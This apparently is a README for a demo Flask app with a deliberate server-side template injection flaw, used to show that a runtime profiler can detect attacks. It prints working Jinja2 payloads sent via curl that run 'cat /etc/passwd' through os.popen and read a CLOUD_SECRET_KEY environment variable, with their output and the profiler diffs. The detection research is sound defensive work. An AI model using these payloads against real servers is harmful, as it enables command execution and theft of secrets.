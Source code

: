 # demo-profile-ssti

Flask application containing SSTI vulnerability.

The profiler measured normal requests, attack requests that read `/etc/passwd`, and attack requests that extract `CLOUD_SECRET_KEY` from environment variables.

Then, from the comparison of the measurement results, it was confirmed that the profiler can find traces of the attack.

## read `/etc/passwd`

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="test"
test
```

### profile data

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/normal.json>

## read `/etc/passwd`

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read()}}"
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```

### profile data

The following differences were confirmed compared to normal requests.

```diff
+ { "func": "popen", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "_cleanup", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "_get_handles", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/codecs.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/codecs.py" },
```

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/steal_etc_passwd.json#L11425>

## extract `CLOUD_SECRET_KEY`

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
8Z0MH8EWYMB0N439
```

### profile data

The following differences were confirmed compared to normal requests.

```diff
+ { "func": "getenv", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "get", "file": "/usr/local/lib/python3.10/_collections_abc.py" },
+ { "func": "__getitem__", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "encode", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "decode", "file": "/usr/local/lib/python3.10/os.py" },
```

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/steal_cloud_secret_key.json#L9629>
